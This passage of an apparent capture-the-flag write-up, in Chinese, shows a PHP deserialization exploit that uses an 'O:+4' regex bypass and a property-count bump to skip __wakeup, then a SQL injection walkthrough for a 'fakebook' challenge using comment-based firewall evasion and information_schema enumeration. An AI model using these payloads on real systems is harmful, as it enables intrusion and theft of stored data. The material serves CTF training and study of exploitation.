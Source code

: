 ```php
}

//如果get进来var
/*
if (isset($_GET['var'])) { 
  //进行base64解密
  $var = base64_decode($_GET['var']); 
  //正则匹配
  if (preg_match('/[oc]:\d+:/i', $var)) { 
    die('stop hacking!'); 
  } else {
    @unserialize($var); 
  } 
} else { 
  highlight_file("index.php"); 
} 
*/

//此时$file='fl4g.php';
$a = new Demo('fl4g.php');
$b = serialize($a);
echo $b."<br/>";
$c = str_replace('O:4','O:+4',$b);
$d = str_replace(':1:',':2:',$c);
echo $d."<br/>";
$e = base64_encode($d);
echo $e;

?>
```

## fakebook

```php
/view.php?no=1 order by 4 --+ 可以

碰到防火墙

/view.php?no=-1 union/**/select 1,2,3,4 --+

暴露了真实路径
/var/www/html/view.php

2号位
database()
fakebook

/view.php?no=0 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='fakebook' --+
发现users

/view.php?no=0 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users' --+
发现
no,username,passwd,data

/view.php?no=0 union/**/select 1,group_concat(data),3,4 from users --+
发现data的数据
O:8:"UserInfo":3:{s:4:"name";s:2:"zj";s:3:"age";i:20;s:4:"blog";s:13:"www.baidu.com";}
我们数据进去之后会进行序列化，保存在data字段


```